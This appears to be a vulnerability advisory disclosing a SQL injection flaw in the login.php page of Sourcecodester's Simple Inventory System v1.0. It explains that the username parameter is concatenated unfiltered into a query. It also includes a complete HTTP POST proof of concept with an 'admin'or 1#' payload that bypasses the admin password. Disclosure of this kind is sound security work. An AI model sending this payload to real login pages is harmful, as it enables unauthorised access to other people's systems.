


### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：login.php

injection parameter:$_POST['username']

#### 1.Vulnerability analysis

As shown in the figure below, in login.php, after the username parameter is passed in through post, it is directly spliced into the SQL query statement without any security filtering, thus leading to the occurrence of SQL injection vulnerabilities. We can inject query statements through universal passwords to log in to the backend without the need for an admin password.



#### 2.Vulnerability verification and exploit

The POC is as follows.

```
POST /login.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

username=admin'or%201#&password=1&submit=Login
```



It is possible to enter the background without the correct password of admin.